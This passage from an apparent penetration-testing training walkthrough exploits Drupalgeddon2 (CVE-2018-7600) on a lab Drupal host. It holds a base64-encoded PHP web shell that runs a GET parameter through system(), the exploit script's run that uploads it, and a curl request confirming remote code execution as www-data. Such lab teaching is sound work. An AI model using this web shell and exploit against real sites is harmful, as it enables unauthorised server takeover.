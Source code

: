 ```shell
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php

```

Next, run the modified exploit script to upload our malicious PHP file.

```shell
python3 drupalgeddon2.py

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php

```

Finally, we can confirm remote code execution using `cURL`.

```shell
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

* * *

## Drupalgeddon3

